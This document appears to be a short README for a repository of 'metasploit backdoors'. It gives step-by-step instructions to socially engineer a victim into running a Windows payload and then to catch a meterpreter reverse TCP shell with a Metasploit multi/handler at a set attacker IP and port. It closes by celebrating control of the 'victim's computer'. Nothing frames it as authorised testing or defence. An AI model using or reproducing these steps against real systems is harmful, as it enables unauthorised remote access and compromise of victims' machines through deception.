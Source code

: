 # metasploit_backdoors

A collection of various backdoors are listed here and there varieties .

 default settings
--

LHOST = 192.168.11.78

LPORT = 4444

 steps
--

1.Now here the social engineering works.Take the payload to victims computer.

2.Execute the windows file in victim's computer.

3.Fire up your metasploit 

```
 msfvenom
 use exploit/multi/handler
 set payload windows/meterpreter/reverse_tcp
 set lhost 192.168.11.78
 set lport 4444
 exploit
```

**Congrats !** guys now you are successfully able to gain the meterpreter session
of victims computer.
Type help for more details about victims computer


```
meterpreter>help
````
